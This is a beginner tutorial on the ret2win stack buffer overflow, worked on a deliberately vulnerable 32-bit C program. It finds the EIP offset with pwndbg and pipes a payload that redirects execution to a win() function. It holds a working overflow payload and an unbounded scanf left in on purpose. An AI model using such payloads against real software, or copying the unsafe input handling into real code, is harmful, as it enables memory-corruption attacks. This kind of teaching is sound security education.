



# ret2win



A ret2win technique is exactly what it sounds like, 'return to win'. Meaning we find a way to exploit the system and redirect the return address to our function of choice. This might be `win()` or something similar like `flag()` .

In the previous topic, we learned that we could overwrite variables to the value that we desired. Now, we will be overwriting return addresses.

Let us begin :)

***

### 1. Theory

Firstly, check the type of file&#x20;

<pre><code><strong>❯ file ret2win
</strong>ret2win: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=516803899a2c7d12ad238bfafa4de3895d8c7adf, for GNU/Linux 3.2.0, not stripped
</code></pre>

It is a 32-bit binary file

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Win function
void win() {
    char buf[64];  
    FILE *f = fopen("flag.txt", "r");   

    fgets(buf, sizeof(buf), f);     
    fclose(f);

    printf("Ret2win successfull here is your flag: %s\n", buf);   
}


// Vuln function
void vuln() {
    char buffer[20];

    printf("What is your name\n> ");
    scanf("%s", buffer);   
    printf("Hey there, nice to meet ya %s\n", buffer);
}

// Main
int main() {
    vuln();
    return 0;
}
```

Observing the code above, we can notice that the `buffer` is set to hold 20 bytes. After that, `scanf` reads the input to an unknown amount of bytes which could cause a buffer overflow vulnerability.

We can also observe that there is a `win()` function that we would want to call to print the flag.

This is the flow of our program right now:

<figure><figcaption><p>Current program flow</p></figcaption></figure>

But what we want is something like this:

<figure><figcaption><p>Redirect to win</p></figcaption></figure>

Okay now that we have understood that, let's get to actually exploit it ourselves

***

### 2. Finding offset

<pre class="language-markdown"><code class="lang-markdown"><strong>❯ ./ret2win
</strong>
What is your name
> ineedsomesleep
Hey there, nice to meet ya ineedsomesleep
</code></pre>

The program outputs our name. Let's try inputting more than 20 bytes of input

<pre><code><strong>❯ ./ret2win 
</strong>
What is your name
> AAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hey there, nice to meet ya AAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    60817 segmentation fault  ./ret2win
</code></pre>

We encountered a <mark style="color:red;">segfault</mark> where we are trying to access memory where we are not allowed to. Now, the goal, is to find the right padding (<mark style="color:green;">offset</mark>) to fill the buffer and reach the instruction pointer (EIP register) which is where the control flow happens. If we <mark style="color:green;">control the EIP</mark> we can control the direction of the program.

We can manually try to guess the number of 'A's needed to fill the buffer and leak to EIP but it is not efficient. That is why we are going to use a plugin to make our lives easier.&#x20;


[gdb-plugins.md](../gdb-plugins.md)


All of the tools has the same function but different commands. I personally, will be using pwndbg.

We can start by starting gdb with the binary

<pre><code><strong>❯ gdb ret2win 
</strong></code></pre>

Next we enter this command as it will generate a sequence of 4-byte string to find the offset within the EIP

<pre><code><strong>pwndbg> cyclic 50
</strong>aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
</code></pre>

Copy the long string and run the program

<pre><code><strong>pwndbg> r
</strong>Starting program: /home/mfkrypt/pwn_blog/ret2win/ret2win 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What is your name
> 
</code></pre>

Paste it in and enter

```
What is your name
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
```

Notice this part and focus on the EIP

```
EAX  0x4e
EBX  0x61616167 ('gaaa')
ECX  0
EDX  0
EDI  0xf7ffcb60 (_rtld_global_ro) ◂— 0
ESI  0xffffcfbc —▸ 0xffffd1cf ◂— 'CLUTTER_IM_MODULE=ibus'
EBP  0x61616168 ('haaa')
ESP  0xffffcef0 ◂— 'jaaakaaalaaama'
EIP  0x61616169 ('iaaa')
```

We can see it is filled with the sequence. Now, copy the sequence and use this to find the location of the offset

<pre><code><strong>pwndbg> cyclic -l iaaa
</strong>Finding cyclic pattern of 4 bytes: b'iaaa' (hex: 0x69616161)
Found at offset 32
</code></pre>

We have found it. Meaning we need to input 32 bytes of junk and then the address of the `win()`&#x20;

***

### 3. Finding address of `win()`

Exit gdb and run it again, but this time use this command to find the available functions and addresses

<pre><code><strong>pwndbg> info functions
</strong></code></pre>

find `win()` address

```
0x080491a6  win
```

Perfect, now we have all the components we need to launch our exploit

<figure><figcaption></figcaption></figure>

***

### 4. Exploit

Similar to the last topic we will be echoing our input, but before that remember it is a 32-bit binary. Which means we need to convert the address into <mark style="color:green;">little-endian</mark>

```
\xa6\x91\x04\x08
```

Launch the payload&#x20;

<pre><code><strong>❯ echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x91\x04\x08" | ./ret2win
</strong>
What is your name
> Hey there, nice to meet ya AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Ret2win successfull here is your flag: flag{eazy_ret2win}

[1]    224009 done                echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x91\x04\x08" | 
       224010 segmentation fault  ./ret2win
</code></pre>

BOOM!, we called the win() function. Congrats if you did it ;)
